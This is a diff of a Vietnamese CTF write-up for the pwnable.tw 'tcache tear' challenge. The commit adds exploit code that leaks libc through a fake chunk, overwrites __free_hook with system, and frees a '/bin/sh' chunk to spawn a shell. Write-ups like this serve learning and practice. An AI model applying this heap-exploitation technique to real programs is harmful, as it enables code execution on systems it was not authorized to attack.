

Before and after one commit to NLQuy/CTFWU, a Markdown page: Pwnable.tw/tcache tear/readme.md, the part around the change. Rendered like a GitHub page; blank space fills up the shorter version; grey boxes are pictures that could not be loaded.

````diff
--- a/Pwnable.tw/tcache tear/readme.md
+++ b/Pwnable.tw/tcache tear/readme.md
@@ -52,4 +52,29 @@
   ```
   - ![image](https://user-images.githubusercontent.com/113702087/220081883-10198633-7bb4-4635-b8cb-092b55a79ee3.png)
   - Sau khi đưa libc_stderr vào tcache ta free(fakechunk) tcache 0x90: `fakechunk->libc_stderr`
-  -
+  ```
+  malloc(size_ + 40, b'a')
+malloc(size_ + 40, b'a')
+freeandinfo(b'2')
+  ```
+  - ![image](https://user-images.githubusercontent.com/113702087/220082718-35ee95cc-6b5b-40b2-8d54-055eb2a4ebec.png)
+  ```
+  freeandinfo(b'3')
+r.recvuntil(b'Name :')
+r.recv(16)
+out = r.recv(8)
+libc.address = u64(out) - 0x3ec680
+print(hex(libc.address))
+  ```
+ ### Overwrite free_hook và lấy shell
+  ```
+  malloc(size_ + 56, b'a')
+malloc(size_ + 56, p64(libc.sym['__free_hook']))
+malloc(size_ + 120, b'a')
+malloc(size_ + 120, p64(libc.sym['system']))
+
+malloc(size_ + 112, b'/bin/sh')
+freeandinfo(b'2')
+  ```
+  - ![image](https://user-images.githubusercontent.com/113702087/220083309-d75596e1-2280-48f3-9445-32870d89c9f7.png)
+  - ![image](https://user-images.githubusercontent.com/113702087/220083419-b37a7326-e416-4023-aaca-f1cbb5b3303e.png)
````
